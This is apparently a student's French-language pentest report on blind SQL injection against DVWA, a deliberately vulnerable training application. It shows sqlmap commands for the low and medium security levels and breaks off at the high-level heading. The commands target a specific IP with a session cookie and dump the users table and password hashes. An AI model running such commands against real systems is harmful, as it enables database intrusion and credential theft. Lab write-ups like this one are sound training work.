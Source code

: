 # 1.SQL - blind

## 1.1 Premier niveau - low

Nous allons utiliser SQLMAP pour trouver les bases de données et les afficher   
Le principe est le meme que pour les autres injections.  
Nous allons utiliser la commande ci-dessous :  

```
sqlmap -u "http://34.163.97.167/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=bnk7pa0fohd54o1l6orc5624ko; security=low" --banner --current-user --current-db --is-dba --tables --columns --dump --fresh-queries
```

![images](C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\9.png)
On obtient ce resultat, `sqlmap` a donc bien trouve la DB.  

Maintenant, nous allons rajouter le parametre `-T` et `-D` pour afficher la base de données des utlisateur et leurs mots de passe. Pour gagner du temps nous ne dechiffreront pas les mots de passe car la base de données est la meme qu'avant et nous l'avont deja fait

```
sqlmap -u "http://34.163.97.167/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=bnk7pa0fohd54o1l6orc5624ko; security=low" --banner --current-user --current-db --is-dba --tables --columns --dump -T users -D dvwa
```

![images](C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\10.png)

## 1.2 Deuxieme niveau - medium

En utilisant Burp suite, nous allons capturer la requete `POST` 

![images](C:\Users\sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\11.png)

On utilise encore la meme commande que precedemment 

```
sqlmap -r post.txt -p id
```

On voit dans la requete que le parametre a injecter est `id` on precise donc `-p id` et on met notre requete dans le fichier `post.txt`.

sqlmap identifie 2 types de vulnerabilites :

`boolen-based blind`

`time-based blind`

![images](C:\Users\sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\12.png)

On reutilise donc les meme parametres apres avoir identifier le nom de la bases de donnes et les tables :

```
sqlmap -r post.txt -p id --dump -T users -D dvwa
```

## 1.3 Troisieme niveau - high
